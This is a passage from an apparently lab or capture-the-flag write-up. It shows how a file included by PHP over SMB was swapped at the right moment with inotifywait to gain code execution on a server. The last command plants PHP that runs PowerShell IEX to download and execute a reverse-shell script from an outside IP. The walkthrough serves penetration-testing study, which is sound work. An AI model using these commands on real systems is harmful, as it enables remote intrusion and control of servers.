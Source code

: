 Using `inotifywait` utility from inotify-tools with `-e` flag to monitor specific event.
```bash
-e|--event <event1> [ -e|--event <event2> ... ]
		Listen for specific event(s).  If omitted, all events are 
		listened for.

Events:
	close		file or directory closed, regardless of read/write mode
```

With that tool finaly get php code execuated on the server, only issue occurred is that there is some delay between 2 includes, after first closing and second opening of the file. For that i setup 2 event listener, first for closing and second for opening.
```bash
echo poorduck > header.inc; inotifywait -e close header.inc;inotifywait -e open header.inc;  echo '<?php echo "poorduck from php!";?>' > header.inc
```

![](screenshots/smb-to-php.png)

Getting reverse shell with [PayloadsAllTheThings powershell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) and [nishang revshell ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
```bash
echo poorduck > header.inc; inotifywait -e close header.inc; inotifywait -e open header.inc; echo "<?php system(\"powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/powerShellTcp.ps1')\");?>" > header.inc
```

![](screenshots/rev-shell.png)
